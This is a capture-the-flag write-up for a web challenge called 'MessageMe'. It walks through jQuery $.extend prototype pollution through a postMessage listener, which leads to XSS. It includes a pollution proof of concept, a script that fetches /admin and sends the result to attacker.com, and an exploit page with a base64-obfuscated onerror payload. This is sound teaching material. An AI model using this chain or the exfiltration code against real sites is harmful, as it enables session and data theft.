 # MessageMe

## Challenge

>   Your friend has created a new blog, but weird things are happening ... go and see what's going on! 
>   What you know: before clicking on your link, the bot is connected to the application at http://127.0.0.1:3000
>
>   Author : `Elweth` 

- Catégorie: Web
- Difficulté: Medium

## Deployment

- Docker compose

```bash
cd src; docker compose up
``` 

## Writeup


### PostMessage 

The application is quite small, there is a file /assets/script.js which is loaded :

```javascript
window.addEventListener('message', (event) => {
    const defaultData = { "date": Date(), "title": "Sample", "message": "No message provided" };
    const json = $.extend(true, {}, defaultData, JSON.parse(event.data));
    
    const text = `Date: ${json.date}\nTitle: ${json.title}\nMessage: ${json.message}`;
    document.getElementById('messageDisplay').innerText = text
    
    if(defaultData.urgentMessage)
    {
        content = document.getElementById('messageDisplay')
        content.innerHTML += "<p class='urgent'>" + urgentMessage + "</p>";
    }
});
```

The application listens to an EventListener of type "message" to dynamically add content to the page.

We can communicate with this EventListener through a postMessage mechanism :

![postmessage1](/images/postmessage1.png)

The content is rendered with `innerText` so no XSS possible.

Only the "urgentMessage" is rendered through innerHTML but it seems we can't control it.

### Jquery Prototype pollution

The application is loading Jquery v3.3.1 :

```html
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
```

The version is vulnerable to prototype pollution with the use of `$.extend` to merge 2 JSON.

- https://www.exploit-db.com/exploits/52141

We can confirme the prototype pollution with the following example allowing to create attributes in `Object.prototype` : 

```javascript
const original = {"foo": "bar"}
const evil = JSON.parse('{"__proto__": {"polluted": "pouetpouet"}}')
const json = $.extend(true, {}, original, evil);
window.polluted
'pouetpouet'
```

![polluted](/images/polluted_poc.png)

Thanks to this primitive we can forge a postMessage to trigger the prototype pollution, to create a `urgentMessage` and trigger the XSS : 

![trigger_pp_xss](/images/trigger_pp_xss.png)

To get the flag, you have to exploit the XSS to exfiltrate the content of the /admin. This can be done as is :

```javascript
fetch("/admin").then(d => d.text()).then((data) => {
    flag = data;
    window.location.href = `http://attacker.com/?cookie=${btoa(flag)}`;
})
```

To trigger the postMessge, host the page and send it to the bot:

```html
<script>
    x = open("http://127.0.0.1:3000/");

    setTimeout(() => {
      x.postMessage(
        '{"date": "123", "title":"456", "message": "789", "__proto__": {"urgentMessage": "<img src=x onerror=eval(atob(\'ZmV0Y2goIi9hZG1pbiIpLnRoZW4oZCA9PiBkLnRleHQoKSkudGhlbigoZGF0YSkgPT4geyBmbGFnID0gZGF0YTsgd2luZG93LmxvY2F0aW9uLmhyZWYgPSBgaHR0cDovLy9hdHRhY2tlci5jb20vLj9jb29raWU9JHtidG9hKGZsYWcpfWA7IH0p\'))>"}}',
        "*"
      );
    }, 5000);
</script>
```